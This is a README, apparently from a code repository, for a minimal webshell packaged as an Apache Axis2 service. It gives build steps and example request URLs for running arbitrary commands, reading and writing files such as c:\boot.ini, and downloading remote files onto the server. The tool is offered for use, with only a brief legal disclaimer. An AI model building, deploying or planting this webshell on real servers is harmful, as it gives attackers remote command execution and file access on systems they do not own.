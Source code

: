 # Introduction

A minimal webshell for Apache AXIS2

# Legal disclaimer

Using this tool is legit but hacking may not be. The author does not take any responsibility for such activities.

# Build instructions

Modify `$JAVA_HOME` variable if necessary (e.g to be compatible with JDK 1.6 series)

Then run `ant -v` to build it, you can find the compiled archive in `build` directory, aka `build/AxisInvoker.aar`

# Supported commands?

- exec  - Run a command, works on both Linux/Windows, no worries.   

  http://192.168.56.103:8080/axis2/services/AxisInvoker/exec?cmd=dir%20C:
   
   
- write - Write a file

   http://192.168.56.103:8080/axis2/services/AxisInvoker/write?path=c:\1.1txt&content=123
   

- info  - Display certain informations, modify as needed

  http://192.168.56.103:8080/axis2/services/AxisInvoker/info
  

- read  - Read contents of a file

  http://192.168.56.103:8080/axis2/services/AxisInvoker/read?path=c:\boot.ini
  

- download - Download a file and save it somewhere

  http://192.168.56.103:8080/axis2/services/AxisInvoker/download?url=http://www.baidu.com&file=c:\122.txt
  


